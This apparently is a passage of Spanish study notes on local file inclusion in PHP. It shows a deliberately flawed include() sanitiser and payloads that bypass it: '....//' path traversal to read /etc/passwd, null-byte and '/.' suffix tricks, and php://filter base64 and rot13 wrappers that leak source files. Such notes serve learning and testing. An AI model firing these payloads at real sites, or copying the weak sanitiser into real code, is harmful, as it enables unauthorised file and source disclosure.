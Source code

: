 
Sanitizando de nuevo el codigo forzando a que busque un archivo .php en la ruta 
```php
<?php
	$filename = $_GET['filename'];
	$filename = str_replace("../", "", $filename);
	
	include("/var/www/html/" . $filename . ".php");
?>

	// . = Concatenar
```
Esto funciona para las versiones de **PHP menor a la 5.3.8** y lo que podemos hacer para evitar esa extencion es agregar un **NULL BYTE** en la **web** de la siguiente manera:
Donde **%00 -> \\0** 
* **index.php?filename=....//....//....//....//....//etc/passwd%00** y obtendriamos como resultado **/etc/passwd**
Cuando exista una sanitizacion por numero de caracteres como los ultimos 6 (passwd) o por los ultimos 4 (.txt). Podemos hacer lo siguiente:
Podriamos agregar un **/.** al final y asi podriamos burlar la sanitizacion. 
* **index.php?filename=....//....//....//....//....//etc/passwd/.** y obtendriamos como resultado **/etc/passwd**
* **index.php?filename=....//....//....//....//....//tmp/test.txt/.** y obtendriamos como resultado el archivo **test.txt**

----

Tambien podemos emplear **Groupers** en la url de la Web:
Este nos ayuda a apuntar a un recurso **(index.php, secret.php, etc...)** y despues mediante una conversion representarlo en base64
* index.php?page=**php://filter/convert.base64-encode/resource=index.php** y obtendriamos como resultado el index.php pero en base64, despues colocamos el resultado en un archivo **data**
```bash
❯ cat data | base64 -d | sponge data                             # Sponge = Colocar el output decodificado en el mismo archivo
```

```bash
❯ echo -n "ihst98htar78htrs8697hstrhyu8tr" | base64 -d; echo     # Si la cadena es pequena, podemos mostrar el contenido en la pantalla
```


Otro **Groupers** que podemos usar en la web es el siguiente:
Este nos ayuda a rotar cada caracter en 13 posiciones
* index.php?page=**php://filter/read=string.rot13/resource=secret.php** y obtendriamos como resultado algo raro que es el resultado pero rotado 13 caracteres y pegamos el resultado en un archivo **data**
```bash
❯ cat data | tr '[c-za-bC-ZA-B]' '[p-za-oP-ZA-O]' # tr = Nos ayudara a rotar de nuevo las 13 posiciones, empezando por la letra que nos arroje el output (Siempre cambian) 

	# Empezamos por la letra que nos arroje el output
	# Despues completamos para llegar a la z 
	# Terminamos colocando lo que falta del abcedario
	# Lo volvemos a hacer pero ahora en mayuscula
	# La ultima instruccion es para rotar empezando por la p de 'php'
```
